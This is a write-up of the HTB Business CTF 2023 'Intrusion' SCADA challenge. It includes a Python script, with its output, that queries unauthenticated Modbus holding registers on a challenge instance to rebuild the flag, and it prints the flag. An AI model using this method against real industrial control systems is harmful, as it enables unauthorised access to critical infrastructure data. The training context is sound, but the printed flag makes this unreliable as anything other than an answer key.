 # Intrusion (Scada Challenge)
HTB Business CTF 2023
Writeup by: @godylockz

## Challenge Description
Name: Intrusion
Category: Scada
Difficulty: Easy
Points: 1000
After gaining access to the enemy's infrastructure, we collected crucial network traffic data from their Modbus network. Our primary objective is to swiftly identify the specific registers containing highly sensitive information and extract that data.

## Challenge Files
network_logs.pcapng
```sh
$ file network_logs.pcapng
network_logs.pcapng: pcapng capture file - version 1.0
```

client.py
```text
#!/usr/bin/python3

import socket
from time import sleep
from umodbus import conf
from umodbus.client import tcp

# Adjust modbus configuration
conf.SIGNED_VALUES = True

# Create a socket connection
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
sock.connect(('127.0.0.1', 502)) # CHANGE THE IP & PORT to the dockers instance

# write your umodbus command here
# command = 

# Send your message to the network
tcp.send_message(command, sock)

# Use sleep between messages 
time.sleep(1)

# Close the connection
sock.close()
```


## Strategy
This was a follow on from the Watch Tower challenge, using the reference numbers was key! You use the reference numbers to access all the holding registers (sorted) to obtain the flag. The unit identifier of `52` is also shown in the Modbus/TCP in the data of the packet.

![intrusion_1](images/intrusion_1.png)

The following python code was used to automate the solving of this challenge and sending Modbus commands. After reading all the specific holding registers in order, we read the specific holding registers for the flag!

## Python Solution Code
```python
#!/usr/bin/python3

# Imports
from cmd import Cmd
import socket
from umodbus import conf
from umodbus.client import tcp
from time import sleep
import subprocess
from sys import exit

# Adjust modbus configuration
conf.SIGNED_VALUES = True

# Verbose output
VERBOSE = False

# Change to the dockers instance
DOCKER_IP = "94.237.62.254"
DOCKER_PORT = 35809

SLAVE_ID = 52  # unit_id

# from reference numbers in PCAP capture
cmd_output = subprocess.check_output(
    "tshark -r network_logs.pcapng -Y 'modbus.func_code == 16'  -T fields -e 'modbus.reference_num'", shell=True, encoding="utf-8")
ADDR_REGISTERS = [int(i) for i in cmd_output.split()]
ADDR_REGISTERS.sort()


def read_holding_registers(sock, unit_id, address):
    """Read holding registers.
    Return ADU for Modbus function code 03: Read Holding Registers.
    Holding registers are the most universal 16-bit register, may be read or written, and may be used for a variety of things including inputs, outputs, configuration data, or any requirement for "holding" data.
    """
    quantity = 1  # Number of registers to read
    if VERBOSE:
        print(
        f"[*](unit: {unit_id}, addr: {address}) Attempting to read holding registers ...")
    request = tcp.read_holding_registers(
        slave_id=unit_id, starting_address=address, quantity=quantity)
    response = tcp.send_message(request, sock)
    coil_ascii = "".join(chr(integer) for integer in response)
    print(
        f"[+](unit: {unit_id}, addr: {address}) Holding Registers - {response} | {coil_ascii}")
    return coil_ascii


# Connect to modbus
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((DOCKER_IP, DOCKER_PORT))

# Loop through all addresses and send the modbus request
out = ""
for address in ADDR_REGISTERS:
    out += read_holding_registers(sock, SLAVE_ID, address)
    sleep(0.1)
print(out)
exit()
```

```sh
$ python3 intrusion-sol.py
[+](unit: 52, addr: 6) Holding Registers - [72] | H
[+](unit: 52, addr: 10) Holding Registers - [84] | T
[+](unit: 52, addr: 12) Holding Registers - [66] | B
[+](unit: 52, addr: 21) Holding Registers - [123] | {
[+](unit: 52, addr: 22) Holding Registers - [50] | 2
[+](unit: 52, addr: 26) Holding Registers - [51] | 3
[+](unit: 52, addr: 47) Holding Registers - [57] | 9
[+](unit: 52, addr: 53) Holding Registers - [49] | 1
[+](unit: 52, addr: 63) Holding Registers - [53] | 5
[+](unit: 52, addr: 77) Holding Registers - [55] | 7
[+](unit: 52, addr: 83) Holding Registers - [51] | 3
[+](unit: 52, addr: 86) Holding Registers - [50] | 2
[+](unit: 52, addr: 89) Holding Registers - [53] | 5
[+](unit: 52, addr: 95) Holding Registers - [95] | _
[+](unit: 52, addr: 96) Holding Registers - [109] | m
[+](unit: 52, addr: 104) Holding Registers - [49] | 1
[+](unit: 52, addr: 123) Holding Registers - [57] | 9
[+](unit: 52, addr: 128) Holding Registers - [104] | h
[+](unit: 52, addr: 131) Holding Registers - [55] | 7
[+](unit: 52, addr: 134) Holding Registers - [95] | _
[+](unit: 52, addr: 139) Holding Registers - [104] | h
[+](unit: 52, addr: 143) Holding Registers - [49] | 1
[+](unit: 52, addr: 144) Holding Registers - [100] | d
[+](unit: 52, addr: 145) Holding Registers - [100] | d
[+](unit: 52, addr: 153) Holding Registers - [51] | 3
[+](unit: 52, addr: 163) Holding Registers - [95] | _
[+](unit: 52, addr: 168) Holding Registers - [53] | 5
[+](unit: 52, addr: 173) Holding Registers - [51] | 3
[+](unit: 52, addr: 179) Holding Registers - [99] | c
[+](unit: 52, addr: 193) Holding Registers - [50] | 2
[+](unit: 52, addr: 206) Holding Registers - [51] | 3
[+](unit: 52, addr: 210) Holding Registers - [55] | 7
[+](unit: 52, addr: 214) Holding Registers - [53] | 5
[+](unit: 52, addr: 215) Holding Registers - [33] | !
[+](unit: 52, addr: 219) Holding Registers - [64] | @
[+](unit: 52, addr: 221) Holding Registers - [36] | $
[+](unit: 52, addr: 224) Holding Registers - [50] | 2
[+](unit: 52, addr: 225) Holding Registers - [54] | 6
[+](unit: 52, addr: 226) Holding Registers - [48] | 0
[+](unit: 52, addr: 231) Holding Registers - [57] | 9
[+](unit: 52, addr: 239) Holding Registers - [94] | ^
[+](unit: 52, addr: 253) Holding Registers - [125] | }
HTB{239157325_m19h7_h1dd3_53c2375!@$2609^}
```

Flag: `HTB{239157325_m19h7_h1dd3_53c2375!@$2609^}`